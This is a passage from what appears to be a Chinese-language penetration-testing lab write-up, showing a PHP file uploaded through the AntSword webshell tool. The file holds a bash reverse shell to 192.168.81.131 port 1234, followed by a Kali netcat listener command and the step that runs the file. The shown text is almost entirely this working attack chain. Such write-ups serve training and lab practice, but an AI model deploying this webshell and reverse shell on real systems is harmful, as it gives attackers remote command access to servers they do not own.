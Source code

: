然后把php文件通过蚁剑进行上传

```
<?php system("echo 'bash -i >& /dev/tcp/192.168.81.131/1234 0>&1' | bash");?>
```

![image-20220318142834768](靶场练习.assets/image-20220318142834768.png)



kali服务端监听

```
nc -nvlp 1234
```

蚁剑运行

```
php 1234.php
```

![image-20220318143524951](靶场练习.assets/image-20220318143524951.png)
